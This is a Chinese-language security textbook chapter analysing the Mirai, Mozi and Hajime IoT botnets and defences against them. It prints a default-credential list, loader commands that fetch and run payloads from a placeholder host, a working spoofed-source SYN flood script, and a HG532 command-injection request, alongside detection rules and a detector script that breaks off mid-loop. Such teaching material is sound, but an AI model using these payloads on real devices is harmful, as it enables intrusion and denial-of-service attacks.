








## 22.5 IoT僵尸网络案例分析

IoT僵尸网络是网络安全领域最具破坏力的威胁之一。与传统PC僵尸网络不同，IoT僵尸网络利用海量智能设备的弱安全性，构建起规模空前的攻击集群。本章通过对多个真实案例的深度剖析，揭示其运作机制、技术原理与防御策略。

### 22.5.0 概述：IoT僵尸网络的生态体系

#### 什么是IoT僵尸网络

IoT僵尸网络是由攻击者通过恶意软件远程控制的大量物联网设备组成的网络。被感染的设备（称为"僵尸"或"bot"）在用户不知情的情况下，执行攻击者通过命令与控制（C2）服务器下发的指令。



#### IoT设备成为僵尸网络主力军的四重原因

| 因素 | 具体问题 | 严峻程度 |
|------|----------|----------|
| **默认凭据** | 厂家出厂默认账号密码极少被用户修改 | 超过90%的IoT设备出厂凭据从未更改 |
| **固件更新缺失** | 大量低价设备无OTA更新机制，或厂商已停止支持 | 全球约60%的IoT设备存在已知未修补漏洞 |
| **计算资源局限** | CPU/Memory有限，无法运行完整安全软件 | 绝大多数设备无杀毒或入侵检测能力 |
| **网络暴露面** | 默认开放Telnet/SSH/HTTP端口，直接暴露在公网 | Shodan等搜索引擎可轻松发现海量暴露设备 |

#### IoT僵尸网络的攻击能力金字塔



### 22.5.1 案例一：Mirai僵尸网络——IoT攻击的里程碑

#### 事件背景与影响

2016年9月至10月，Mirai僵尸网络发动了当时历史上最大规模的DDoS攻击。其攻击目标直指独立安全研究员Brian Krebs的网站（KrebsOnSecurity）、法国主机服务商OVH，以及DNS服务商Dyn——后者直接导致Twitter、Netflix、Reddit、CNN、Spotify等数十家主流网站大面积瘫痪。

**关键时间线：**

| 时间 | 事件 | 攻击规模 |
|------|------|----------|
| 2016年8月 | Mirai源代码首次在暗网论坛出售 | 不明 |
| 2016年9月20日 | 攻击KrebsOnSecurity网站 | 620 Gbps |
| 2016年9月21日 | 攻击OVH主机商 | 1.1 Tbps |
| 2016年10月21日 | 攻击Dyn DNS服务 | 1.2 Tbps |
| 2016年9月30日 | 作者"Anna-senpai"公开源代码 | 推动全球研究 |
| 2017年12月 | 三名核心作者被FBI逮捕 | 认罪协议 |
| 2018年 | Paras Jha（主谋）被判缓刑+社区服务 | 法律里程碑 |

#### 技术架构深度解析

Mirai的架构采用经典的三层结构，每一层都有清晰的职责划分：



**感染流程的五个阶段：**

**第一阶段：扫描发现（Scanner）**

Mirai通过TCP SYN扫描随机IPv4地址，检测目标是否开放Telnet（23端口）或SSH（22端口）。扫描器采用无状态TCP SYN扫描技术——不保留连接状态，通过伪造源IP来规避检测。

```c
// Mirai扫描器的无状态SYN扫描核心逻辑（伪代码）
struct scan_packet {
    uint32_t src_ip;      // 随机伪造源IP
    uint16_t src_port;    // 随机源端口
    uint32_t dst_ip;      // 目标IP
    uint16_t dst_port;    // 23 (Telnet) 或 22 (SSH)
    uint8_t tcp_flags;    // SYN = 0x02
};

// 发送SYN包后监听SYN+ACK响应
// 收到SYN+ACK = 端口开放，启动凭据尝试
int scan_send_syn(uint32_t target) {
    struct tcphdr *tcp = build_syn_packet(
        random_ip(),       // 伪造源IP
        random_port(),     // 随机源端口
        target,            // 目标IP
        23                 // Telnet端口
    );
    return send_raw_socket(tcp);  // 原始套接字发送
}
```

**第二阶段：凭据爆破（Brute Force）**

一旦发现目标设备开放Telnet/SSH，Mirai会尝试一组预定义的默认凭据组合。这些凭据涵盖了大量常见的厂商默认设置：

| 制造商 | 常用用户名 | 常用密码 |
|--------|-----------|----------|
| 华为/中兴 | admin, root | admin, 1234 |
| TP-Link | admin | admin |
| D-Link | admin | admin, 1234 |
| Dahua/大华 | admin, 666666 | admin, 888888 |
| Hikvision/海康 | admin | 12345 |
| 通用Linux设备 | root, admin, support | root, admin, 1234, password, guest, default |

```c
// Mirai使用的默认凭据表（实际代码片段简化）
struct credentials {
    char *user;
    char *pass;
} default_creds[] = {
    {"admin",    "admin"},
    {"admin",    "1234"},
    {"admin",    "password"},
    {"admin",    "default"},
    {"root",     "root"},
    {"root",     "1234"},
    {"root",     "password"},
    {"support",  "support"},
    {"user",     "user"},
    {"guest",    "guest"},
    {"admin",    "888888"},
    {"666666",   "666666"},
    {"admin",    "1111"},
    {"root",     "xc3511"},
    {"root",     "vizxv"},
    {"root",     "admin"},
    {NULL,       NULL}  // 终止标记
};
```

Mirai针对不同的设备架构（ARM、MIPS、x86、x86_64、PowerPC、SuperH等）准备了对应的恶意二进制文件。扫描器在确认凭据后，会通过`wget`或`tftp`命令从Loader服务器下载与目标设备架构匹配的恶意载荷。

**第三阶段：二进制植入（Loader）**

Loader组件负责将编译好的恶意二进制文件推送到目标设备：

```bash
# 典型的Loader下载命令（由扫描器通过Telnet/SSH会话执行）
cd /tmp || cd /var/run; wget http://[LOADER_IP]/bins/mirai.arm; chmod +x mirai.arm; ./mirai.arm

# 若wget不可用，尝试tftp
tftp -g -r mirai.mips [LOADER_IP]; chmod +x mirai.mips; ./mirai.mips

# 若上述均失败，尝试echo+base64解码注入
echo "f0VMRgEBAQAAAAAAAAAAAA==" | base64 -d > payload; chmod +x payload; ./payload
```

Loader会对每个目标进行**架构验证**——通过分析设备的`/proc/cpuinfo`返回信息，或尝试执行一个轻量级的探测载荷来确认CPU类型，确保下发正确的二进制版本。

**第四阶段：设备接管（Killer）**

Mirai的Killer模块会执行以下操作以保护感染设备上的独占权：

1. **关闭Telnet/SSH端口**：防止其他攻击者或竞争恶意软件通过相同方式进入
2. **杀死竞争进程**：扫描进程列表，杀死已知竞争恶意软件（如Hajime、Qbot等）的进程
3. **清除日志痕迹**：删除`/var/log/messages`、`/var/log/syslog`等日志文件中的登录记录
4. **修改`/etc/init.d/rcS`或`/etc/inittab`**：实现开机自启动
5. **占用大量系统文件描述符**：通过打开大量文件句柄来耗尽系统资源，阻碍后续攻击者获取shell

```c
// Mirai Killer模块的核心逻辑（简化）
void killer_kill_processes() {
    DIR *proc_dir = opendir("/proc");
    struct dirent *entry;
    
    while ((entry = readdir(proc_dir)) != NULL) {
        if (!is_numeric(entry->d_name)) continue;  // 只检查数字目录
        
        char cmdline[256];
        sprintf(cmdline, "/proc/%s/cmdline", entry->d_name);
        int fd = open(cmdline, O_RDONLY);
        
        char *content = read_file(fd);
        
        // 杀死竞争恶意软件进程
        if (strstr(content, "hajime") || 
            strstr(content, "qb0t") ||
            is_telnet_or_ssh_active()) {
            kill(atoi(entry->d_name), SIGKILL);
        }
        
        // 杀死telnetd以防止其他入侵
        if (strstr(content, "telnetd") || 
            strstr(content, "sshd") && 
            !is_mirai_process(content)) {
            kill(atoi(entry->d_name), SIGKILL);
        }
        
        close(fd);
    }
    closedir(proc_dir);
}
```

**第五阶段：C2连接与攻击执行**

成功植入后，bot会与C2服务器建立持久连接，等待攻击指令。攻击指令包含目标IP、攻击类型、持续时间、端口等参数：

```plaintext
# Mirai攻击指令格式（CNC -> Bot）
# 指令: <攻击类型> <目标IP> [端口] [持续时间]

# UDP洪水攻击
UDP FLOOD 1.2.3.4 53 3600 0

# TCP SYN洪水攻击（使用随机源IP）
SYN FLOOD 1.2.3.4 80 300 0

# HTTP GET洪水（应用层攻击，针对Web服务器）
HTTP GET 1.2.3.4 /index.html 600

# GRE IP隧道洪水（利用IP隧道封装耗尽网络设备处理能力）
GRE IP 1.2.3.4 0 1200

# DNS水刑攻击（针对DNS服务器，消耗其UDP处理能力）
DNS WATER 1.2.3.4 ns1.target.com 300
```

#### 攻击方法论：从单点突破到大规模瘫痪

Mirai的攻击能力建立在"量变引起质变"的核心逻辑之上：

**网络层攻击原理：**

TCP SYN洪水利用TCP三次握手的缺陷——bot发送大量伪造源IP的SYN包，目标服务器为每个SYN分配半开连接资源（SYN backlog），当连接队列满后，合法用户的连接请求被拒绝。

```python
# SYN洪水攻击模拟（演示用，请勿用于非法目的）
import socket
import struct
import random

def syn_flood(target_ip, target_port, packet_count=10000):
    """发送伪造的SYN包"""
    try:
        # 创建原始套接字（需要root权限）
        sock = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_TCP)
    except PermissionError:
        print("需要root权限才能创建原始套接字")
        return
    
    for _ in range(packet_count):
        # 伪造随机源IP和源端口
        src_ip = f"{random.randint(1,255)}.{random.randint(1,255)}.{random.randint(1,255)}.{random.randint(1,255)}"
        src_port = random.randint(1024, 65535)
        
        # 构建IP头部
        ip_header = struct.pack('!BBHHHBBH4s4s',
            0x45,           # 版本+首部长度
            0,              # 服务类型
            40,             # 总长度
            random.randint(0, 65535),  # 标识
            0,              # 标志+片偏移
            64,             # TTL
            socket.IPPROTO_TCP,  # 协议
            0,              # 校验和（可选，可设为0）
            socket.inet_aton(src_ip),
            socket.inet_aton(target_ip)
        )
        
        # 构建TCP头部（SYN标志）
        tcp_header = struct.pack('!HHLLBBHHH',
            src_port,       # 源端口
            target_port,    # 目标端口
            random.randint(0, 0xFFFFFFFF),  # 序列号
            0,              # 确认号
            0x50,           # 数据偏移 + 保留位
            0x02,           # SYN标志
            65535,          # 窗口大小
            0,              # 校验和
            0               # 紧急指针
        )
        
        packet = ip_header + tcp_header
        sock.sendto(packet, (target_ip, 0))
    
    sock.close()
```

**应用层攻击原理：**

HTTP GET/POST洪水通过消耗Web服务器的连接池和应用程序资源（数据库连接、session创建、文件I/O）来使其不可用。Mirai的HTTP攻击支持自定义User-Agent和Referer头，模拟真实浏览器行为以绕过简单防护。

#### 防御方法论：纵深防御体系

针对Mirai类攻击，需要构建多层次的防御体系：

**第一层：设备层面（设备所有者/制造商）**

| 防御措施 | 实现方式 | 效果 |
|----------|----------|------|
| 强制修改默认密码 | 设备首次启动引导用户设置强密码 | 消除最常见的攻击入口 |
| 禁用不必要的远程服务 | 关闭Telnet，仅使用SSH密钥认证 | 减少攻击面95%以上 |
| 固件自动更新 | 启用OTA更新，及时修补已知漏洞 | 减少已知漏洞利用 |
| 最小化攻击面 | 关闭未使用的端口和服务（UPnP、SNMP等） | 降低被扫描发现的概率 |
| 硬件安全模块 | 使用TPM或类似技术保护固件完整性 | 防止恶意固件写入 |

**第二层：网络层面（ISP/企业网络）**

| 防御措施 | 实现方式 | 效果 |
|----------|----------|------|
| 基于端口的连接限制 | 限制每个IP的并发连接数 | 防止单个bot耗尽防火墙资源 |
| 异常流量检测 | 基于NetFlow/sFlow分析流量模式 | 早期发现C2通信 |
| DNS Sinkhole | 将已知恶意域名解析到黑洞地址 | 阻断C2通信 |
| BGP Flowspec | 在骨干网层面过滤攻击流量 | 上游清理，防止骨干网拥塞 |
| RPF（反向路径转发） | 验证源IP的合法性 | 过滤伪造源IP的攻击包 |

**第三层：云端层面（服务提供商）**

针对Dyn攻击这样的DNS层攻击，云服务商需要部署：

- **Anycast路由**：将DNS查询分散到全球多个数据中心，单点瘫痪不影响全局
- **RRL（响应速率限制）**：限制来自同一源的DNS查询速率
- **DNSSEC与QNAME最小化**：防止DNS放大攻击
- **弹性容量**：设计为正常业务峰值5-10倍的容量冗余

#### 事后影响与行业发展

Mirai事件对网络安全行业产生了深远影响：

1. **推动IoT安全立法**：美国加州于2018年通过SB-327法案，要求所有IoT设备设置唯一密码
2. **安全研究范式转变**：公开源代码使安全社区能够深度研究，但也降低了攻击门槛
3. **DDoS防护市场爆发**：Cloudflare、Akamai、AWS Shield等DDoS防护服务迅速壮大
4. **设备制造商安全意识提升**：主流品牌开始建立安全响应中心和固件更新机制
5. **C2通信检测技术发展**：基于机器学习的行为分析成为检测未知僵尸网络的重要工具

### 22.5.2 案例二：Mozi僵尸网络——P2P架构的进化者

#### 事件背景

Mozi僵尸网络于2019年底首次被发现，活跃期持续至2023年。其最大特点是采用**去中心化的P2P架构**，彻底颠覆了Mirai的集中式C2模型，使得执法部门的打击行动面临前所未有的挑战。



#### 核心技术解析

**基于BitTorrent DHT协议的P2P网络**

Mozi的核心创新在于对**Kademlia DHT（分布式哈希表）**的改造应用：

```plaintext
# Mozi的DHT架构工作流程

1. 节点启动：
   每个bot生成一个160位随机节点ID
   通过内置的bootstrap节点列表加入DHT网络

2. 节点发现：
   使用Kademlia的FIND_NODE RPC发现邻近节点
   每个节点维护一个k-bucket路由表（最多20个条目）

3. 指令传播：
   攻击者将加密指令写入DHT网络
   指令在DHT网络中自然传播
   所有节点通过定期搜索特定key获取最新指令

4. 存活保障：
   即使80%的节点被清除
   剩余20%仍能维持网络运行
   新感染节点自动通过bootstrap节点重新加入
```

Mozi对原始BitTorrent DHT协议进行了关键改造以适配攻击场景：

| DHT特性 | 原始BitTorrent用途 | Mozi改造用途 |
|---------|-------------------|--------------|
| announce_peer | 通告拥有某个torrent | 通告感染设备存在 |
| get_peers | 获取torrent下载源 | 获取其他bot节点地址 |
| FIND_NODE | 发现DHT网络节点 | 发现C2指令的存储节点 |
| STORE指令 | 存储torrent元数据 | 存储加密的DDoS攻击指令 |

**感染策略的多维化**

Mozi的感染能力远超Mirai，且不依赖单一感染途径：



**关键漏洞利用详情：**

| CVE编号 | 受影响设备 | 漏洞类型 | 攻击方式 |
|---------|-----------|----------|----------|
| CVE-2015-2051 | D-Link路由器（DIR-645/815/860等） | 命令注入 | 通过特殊的HTTP请求执行系统命令 |
| CVE-2015-7755 | Juniper ScreenOS | 后门账号 | 利用内置的隐藏管理员账号登录 |
| CVE-2016-6277 | Netgear路由器（R6250/R6400/R7000等） | 命令注入 | 通过`setup.cgi?todo=debug`执行命令 |
| CVE-2017-17215 | 华为HG532路由器 | 命令注入 | 通过UPnP服务端口37215注入命令 |
| CVE-2020-9377 | D-Link DIR-610 | 远程命令执行 | 通过`/goform/formSetDebug`未授权访问 |

其中，**CVE-2017-17215（华为HG532）**是Mozi最广泛利用的漏洞之一：

```http
# 针对华为HG532路由器的命令注入攻击包
POST /ctrlt/DeviceUpgrade_1 HTTP/1.1
Host: [TARGET_IP]:37215
Content-Type: text/xml
Content-Length: [LENGTH]

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" 
               xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
               xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <soap:Body>
    <DeviceUpgrade>
      <X_CT-COM_UpgradeFile>
        ;cd /tmp;wget http://[LOADER_IP]/mozi.mips;chmod +x mozi.mips;./mozi.mips;
      </X_CT-COM_UpgradeFile>
    </DeviceUpgrade>
  </soap:Body>
</soap:Envelope>
```

#### 攻击能力与规模

| 指标 | 数据 |
|------|------|
| 活跃时间 | 2019年底 ~ 2023年 |
| 全球感染设备数 | 峰值估计超过150万台 |
| 主要影响区域 | 中国（约40%）、巴西（15%）、印度（10%）、俄罗斯、美国 |
| 主要攻击类型 | TCP SYN洪水、UDP洪水、DNS放大攻击、HTTP攻击 |
| 日均攻击次数 | 高峰期日均超过10,000次攻击事件 |
| P2P存活率 | 即使关闭90%节点，剩余10%仍能重建网络 |

#### 执法打击与最终瓦解

2021年，中国公安部联合多国执法机构发起"**净网行动**"，对Mozi僵尸网络实施打击：

```text
# 打击行动时间线

2021年7月 → 中国公安部查明Mozi核心运营者身份
2021年8月 → 抓获14名核心成员，查获服务器30余台
2021年9月 → 全球协同行动，大规模清理感染设备
2022年   → Mozi活动显著下降，但仍有残余节点
2023年   → 完全瓦解，P2P网络无法维持正常运转
```

尽管Mozi最终被瓦解，但其P2P架构设计理念已被后来的僵尸网络继承。**Hajime**僵尸网络甚至引入了更先进的分布式架构，包括基于公钥加密的节点验证和完全无服务器的P2P网络。

### 22.5.3 案例三：Hajime僵尸网络——无服务器的进化形态

#### 与众不同的设计理念

Hajime（日语"序幕"之意）于2016年10月被安全研究员发现。与Mirai和Mozi不同，Hajime完全不需要中央服务器——其所有通信和代码分发都通过P2P网络完成。



**Hajime的五大创新：**

1. **完全去中心化**：无C2服务器、无Loader服务器，所有通信通过DHT+uTP协议完成
2. **数字签名更新**：使用RSA-1024公钥加密确保payload完整性，任何人无法伪造更新
3. **内存驻留**：不写入持久化存储，仅驻留内存，通过特定网络端口重新感染（重启后需要重新感染，但可通过P2P网络迅速重获控制）
4. **模块化设计**：核心代码约60KB，仅包含最基础的网络扫描和P2P通信功能，其他模块动态下载
5. **协议独立**：基于uTP（Micro Transport Protocol，µTP）传输层协议，可穿透NAT设备

#### 与Mirai的技术对比

| 特性 | Mirai | Hajime |
|------|-------|--------|
| C2架构 | 集中式CNC+Loader | 完全P2P，无服务器 |
| 通信协议 | TCP明文 | uTP+DHT，加密 |
| 代码更新 | 重新编译部署 | 数字签名自动更新 |
| 持久化 | 写入文件系统 | 仅内存驻留 |
| 自我保护 | 杀死竞争进程 | 无，依赖隐匿性 |
| 攻击模块 | 多种DDoS攻击 | 主要为P2P传播 |
| 代码质量 | 中等，有内存泄漏 | 高质量，模块化 |

### 22.5.4 多维度对比分析

#### 四大IoT僵尸网络对比总表

| 维度 | Mirai | Mozi | Hajime | Gafgyt/BASHLITE |
|------|-------|------|--------|-----------------|
| **首次发现** | 2016年8月 | 2019年底 | 2016年10月 | 2014年 |
| **源代码公开** | 是（完全公开） | 否 | 否 | 是（部分公开） |
| **核心架构** | 集中式C2+Loader | P2P DHT + 半集中式 | 完全P2P | 集中式IRC |
| **感染途径** | Telnet/SSH弱密码 | 弱密码+漏洞利用 | Telnet弱密码 | Telnet弱密码 |
| **最大规模** | 60万设备 | 150万设备 | 未公布 | 100万设备 |
| **峰值流量** | 1.2 Tbps | 未确认 | 无大规模攻击记录 | 未确认 |
| **主要攻击** | DDoS | DDoS+流量劫持 | P2P网络 | DDoS |
| **存活能力** | 低（C2被关即瘫痪） | 高（P2P自愈） | 极高（完全去中心） | 中（IRC被关即瘫痪）|
| **被瓦解时间** | 2017年（作者被捕） | 2023年（多国行动） | 始终未被完全瓦解 | 2015年（作者被捕）|

#### 架构演变的驱动力



演变背后的四重驱动力：

1. **抗打击需求**：集中式C2的单点失效问题迫使其向分布式进化
2. **检测规避**：P2P加密通信使流量特征检测更为困难
3. **运维自动化**：数字签名和自动更新降低了攻击者的运维成本
4. **收益最大化**：更复杂的架构支持更多元的盈利模式（DDoS租赁、挖矿、代理）

### 22.5.5 实战防御工具箱

#### 检测与监控工具

**Shodan / Censys：** 
定期扫描自己管理的IP段，识别暴露的IoT服务和默认凭据设备。

```text
# 使用Shodan检查暴露的IoT设备
# Shodan搜索语法示例：
port:23 country:CN          # 中国开放的Telnet端口
"default password" router   # 使用默认密码的路由器
"mirai"                     # 疑似Mirai感染的设备标记
```

**Honeypot部署——基于Cowrie的IoT蜜罐：**

```bash
# 部署Cowrie SSH/Telnet蜜罐监控攻击流量
# 使用Docker快速部署
docker run -d \
  --name cowrie \
  -p 2222:2222 \
  -p 23:2223 \
  -v /data/cowrie/log:/var/log/cowrie \
  cowrie/cowrie:latest

# 查看捕获的攻击尝试
tail -f /data/cowrie/log/cowrie.json | jq '.'
```

**入侵检测规则示例（Snort/Suricata）：**

```plaintext
# 检测Mirai扫描活动
alert tcp $HOME_NET any -> $EXTERNAL_NET 23 (
    msg:"Mirai Telnet Scanner Detection";
    flow:to_server;
    flags:S,12;
    tcp.ip_ttl:64;
    detection_filter:track by_dst, count 50, seconds 10;
    sid:1000001; rev:1;
)

# 检测已知C2域名通信
alert udp $HOME_NET any -> $EXTERNAL_NET 53 (
    msg:"Mirai C2 Query Detected";
    content:"|03|rapid|04|dns|00|"; 
    nocase;
    sid:1000002; rev:1;
)

# 检测SSH弱密码猜测
alert tcp $HOME_NET 22 -> $EXTERNAL_NET any (
    msg:"SSH Brute Force - High Frequency";
    flow:from_server,established;
    content:"Failed password";
    detection_filter:track by_src, count 10, seconds 60;
    sid:1000003; rev:1;
)
```

#### 流量分析脚本

```python
#!/usr/bin/env python3
"""
IoT僵尸网络通信检测工具
监控网络流量，识别可疑的C2通信模式
"""
import socket
import struct
import time
from collections import defaultdict

class BotnetDetector:
    def __init__(self):
        # 已知恶意C2域名/IP列表（需定期更新）
        self.malicious_ips = set()
        self.malicious_domains = set()
        
        # 统计信息
        self.connection_attempts = defaultdict(int)
        self.alert_threshold = 100  # 每秒连接数超过此值触发告警
        
        # 常见IoT僵尸网络特征
        self.botnet_signatures = {
            'mirai': [b'\x00\x00\x00\x01', b'GET /attack'],  # Mirai攻击指令前缀
            'mozi': [b'dht_query', b'find_node'],             # Mozi DHT通信特征
            'hajime': [b'hajime', b'\x00h'],                  # Hajime协议特征
        }
    
    def analyze_packet(self, packet):
        """分析单个数据包"""
        if len(packet) < 20:
            return
        
        ip_header = packet[:20]
        iph = struct.unpack('!BBHHHBBH4s4s', ip_header)
        
        src_ip = socket.inet_ntoa(iph[8])
        dst_ip = socket.inet_ntoa(iph[9])
        protocol = iph[6]
        
        # 检查TCP连接
        if protocol == 6 and len(packet) >= 40:
            tcp_header = packet[20:40]
            tcph = struct.unpack('!HHLLBBHHH', tcp_header)
            dst_port = tcph[1]
            
            if dst_port == 23 or dst_port == 22:
                current_time = int(time.time())
                key = f"{src_ip}:{dst_port}"
                self.connection_attempts[key] += 1
                
                # 检测高频扫描
                if self.connection_attempts[key] > self.alert_threshold:
                    print(f"[ALERT] 高频扫描检测: {src_ip} -> 端口{dst_port}, "
                          f"速率: {self.connection_attempts[key]}/秒")
        
        # 嗅探数据负载中的恶意特征
        if len(packet) > 40:  # IP+TCP头部至少40字节
            payload = packet[40:]
            for botnet, signatures in self.botnet_signatures.items():
                for sig in signatures:
                    if sig in payload:
                        print(f"[CRITICAL] 检测到{botnet}僵尸网络通信: "
                              f"{src_ip} -> {dst_ip}")
    
    def start_monitoring(self, interface='eth0'):
        """启动实时监控"""
        print(f"[*] 开始监控网络接口 {interface}...")
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_TCP)
            sock.setsockopt(socket.IPPROTO_IP, socket.IP_HDRINCL, 1)
            
            while True:
                packet = sock.recvfrom(65535)[0]
